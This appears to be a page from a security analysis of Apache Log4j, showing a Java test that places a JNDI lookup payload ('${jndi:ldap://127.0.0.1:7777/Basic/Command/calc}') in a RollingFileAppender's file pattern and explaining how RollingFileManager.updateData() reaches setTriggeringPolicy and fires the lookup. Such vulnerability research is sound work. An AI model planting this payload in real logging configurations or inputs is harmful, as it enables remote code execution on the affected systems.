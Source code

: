 **RollingFileManager.setTriggerPolicy()**

```
 @Test
    public void setTriggerPolicyRollingFileManagerTest(){
        PatternLayout layout = PatternLayout.newBuilder()
                .withConfiguration(new DefaultConfiguration())
                .withPattern("%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n")
                .build();

        RollingFileAppender appender = RollingFileAppender.newBuilder().setConfiguration(new DefaultConfiguration())
                .withFileName("app.log")
                .withFilePattern("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}")
                .setLayout(layout)
                .withAppend(true)
                .setName("RollingFile")
                .withPolicy(CronTriggeringPolicy.createPolicy(new DefaultConfiguration(), "false", "0 * * * * ?"))
                .withStrategy(DefaultRolloverStrategy.newBuilder()
                        .withMax(String.valueOf(3))
                        .withConfig(new DefaultConfiguration())
                        .withFileIndex("min")
                        .build())
                .build();

        appender.getManager().setTriggeringPolicy(OnStartupTriggeringPolicy.createPolicy(1));
    }
```

**ANY_Manager.getManager()**

Since the RollingFileManager utilizes a lookup call in access which invokes updateDate()->setTriggeringPolicy(), it is necessary to include setTriggeringPolicy within updateData(). This implementation is specific to RollingFileManager. Other managers that extend AbstractManager typically have an empty updateData method. Therefore, their getManager() calls do not execute setTriggeringPolicy and do not impact JNDI execution.

RollingFileManager.updateData()

```
 public void updateData(final Object data) {
        FactoryData factoryData = (FactoryData)data;
        this.setRolloverStrategy(factoryData.getRolloverStrategy());
        this.setPatternProcessor(new PatternProcessor(factoryData.getPattern(), this.getPatternProcessor()));
        this.setTriggeringPolicy(factoryData.getTriggeringPolicy());
    }
```

ANY_Manager.updateData()

```
 public void updateData(final Object data) {
        // This default implementation does nothing.
    }
```
